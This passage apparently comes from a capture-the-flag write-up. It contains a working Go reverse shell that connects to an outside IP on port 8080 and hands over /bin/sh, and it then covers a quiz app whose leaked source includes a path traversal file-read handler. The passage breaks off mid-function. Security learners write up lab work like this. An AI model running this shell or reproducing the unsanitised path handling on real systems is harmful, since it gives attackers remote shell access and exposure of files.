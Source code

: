 the go code I uploaded was some sample rev-shell code from pentestmonkey.
```go
package main

import (
        "net"
        "os/exec"
        "time"
)

func main() {
        reverse("167.99.202.x:8080")
}

func reverse(host string) {
        c, err := net.Dial("tcp", host)
        if nil != err {
                if nil != c {
                        c.Close()
                }
                time.Sleep(time.Minute)
                reverse(host)
        }

        cmd := exec.Command("/bin/sh")
        cmd.Stdin, cmd.Stdout, cmd.Stderr = c, c, c
        cmd.Run()
        c.Close()
        reverse(host)
}
```

After that I found the flag in /home/tom/flag.txt 

## Quiz
Saw a simple quiz app, apparently written in Go. Tried lots of stuff with the questionaire, could provoke a strconv error when setting question number to something that was not a number, but nothing else interesting.

After some directory brute forcing we found /backup/, giving us the soruce code.

### Function & routes
```go
    mux := httprouter.New()

    mux.GET("/", index)
    mux.GET("/test/:directory/:theme/:whynot", super)
    mux.GET("/problems/math", math)
    mux.POST("/problems/math", mathCheck)

    //Remember to Delete
    mux.GET("/backup/", backup)
```
```go
func super(w http.ResponseWriter, req *http.Request, ps httprouter.Params) {
    fmt.Println(ps.ByName("whynot"))
    var file string = "/" + ps.ByName("directory") + "/" + ps.ByName("theme") + "/" + ps.ByName("whynot")
    test, err := os.Open(file)
    handleError(w, err)
    defer test.Close()

    scanner := bufio.NewScanner(test)
    var content string
    for scanner.Scan() {
```
